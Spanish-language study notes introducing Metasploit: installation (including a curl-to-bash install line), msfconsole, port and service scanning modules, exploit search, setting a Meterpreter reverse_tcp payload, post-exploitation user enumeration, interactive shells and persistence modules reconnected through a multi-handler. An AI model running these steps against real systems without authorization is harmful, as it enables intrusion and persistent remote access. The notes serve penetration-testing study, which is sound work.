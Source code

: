 
---------

Metasploit es una herramienta poderosa para pruebas de penetración, análisis de seguridad y explotación de vulnerabilidades en redes y sistemas. Aquí tienes una guía básica para empezar con Metasploit:

### 1. **Introducción a Metasploit**

Metasploit Framework es una plataforma de código abierto que contiene módulos de explotación, payloads (cargas útiles), encoders (codificadores), entre otros. Es utilizado por profesionales de la seguridad para realizar pruebas de penetración en sistemas con permisos apropiados.

### 2. **Instalación de Metasploit**

Para usar Metasploit, puedes instalarlo en sistemas basados en Linux (como Kali Linux, que lo trae preinstalado) o en Windows. La instalación varía según el sistema operativo:

- **En Kali Linux**: Generalmente, ya está instalado.
- **En Ubuntu**:
    
    
    `curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/installer/setup.sh | bash`
    
- **En Windows**: Descarga el instalador desde la página oficial de Rapid7.

### 3. **Iniciar Metasploit**

Para comenzar a utilizar Metasploit, abre una terminal y escribe:


`msfconsole`

### 4. **Estructura de Metasploit**

Metasploit tiene varios componentes clave:

- **Exploit**: Código que toma ventaja de una vulnerabilidad específica.
- **Payload**: Código que se ejecuta en el sistema objetivo después de que se haya explotado la vulnerabilidad.
- **Auxiliary**: Herramientas auxiliares para realizar tareas como escaneo, reconocimiento, etc.
- **Post**: Módulos de post-explotación que se utilizan después de comprometer un sistema para realizar tareas de mantenimiento y extracción de información.

### 5. **Escaneo y reconocimiento**

Antes de explotar una vulnerabilidad, necesitas información sobre el objetivo. Metasploit tiene módulos auxiliares para esta etapa:

- **Escaneo de puertos**:
-
    `use auxiliary/scanner/portscan/tcp set RHOSTS <IP_del_objetivo> run`
    
- **Escaneo de servicios**:
    

    `use auxiliary/scanner/http/title set RHOSTS <IP_del_objetivo> run`
    

### 6. **Buscar exploits**

Puedes buscar exploits para aplicaciones o sistemas vulnerables:


`search nombre_del_servicio`

Ejemplo:



`search vsftpd`

### 7. **Configurar un exploit**

Una vez encontrado el exploit adecuado, configúralo:


`use exploit/path/al/exploit set RHOST <IP_del_objetivo> set RPORT <puerto_del_servicio>`

### 8. **Configurar el payload**

Elige el payload a ejecutar en el sistema vulnerable:


`set PAYLOAD windows/meterpreter/reverse_tcp set LHOST <IP_tuya> set LPORT <puerto>`

### 9. **Ejecutar el exploit**

Finalmente, ejecuta el exploit:


`exploit`

Si el exploit es exitoso, tendrás acceso al sistema remoto.

### 10. **Post-explotación**

Metasploit ofrece varios módulos de post-explotación para extraer información o mantener el acceso:

- **Ejemplo**: Enumerar usuarios
    
    
    `use post/windows/gather/enum_logged_on_users set SESSION <ID_de_la_sesion> run`
    

### 11. **Salir de Metasploit**

Para salir de Metasploit, simplemente escribe:

bash

Copy code

`exit`

---------

Iniciar la aplicación 

```
msfdb run 
```

La mayoria de exploits estan programadpos en ruby

La ruta de metaesplot es usr/share/metaesplot-framework

Se pueden configurar espacios de trabajp de ña sifguiente fotma 

![[Pasted image 20241103230822.png]]

Con el comando shell desde metaesploit listener podemos conseguir una consola interactiva de bash para poder ejecutar los comandos que queramos 

Podemos dejar en segundo plano las sessiones de la siguiente manera 

![[Pasted image 20241103233554.png]]


Podemos filtrar por exploits de persisetncia de la siguiente manera 

![[Pasted image 20241103233702.png]]

![[Pasted image 20241103234136.png]]


Posteriormente de Sertear el script de persistencia y de setear la session que queremos, le daboas a run y ya en un modiulo normal de metaesploit como el multihandler podriamos volvernos a concetar a las sessiones




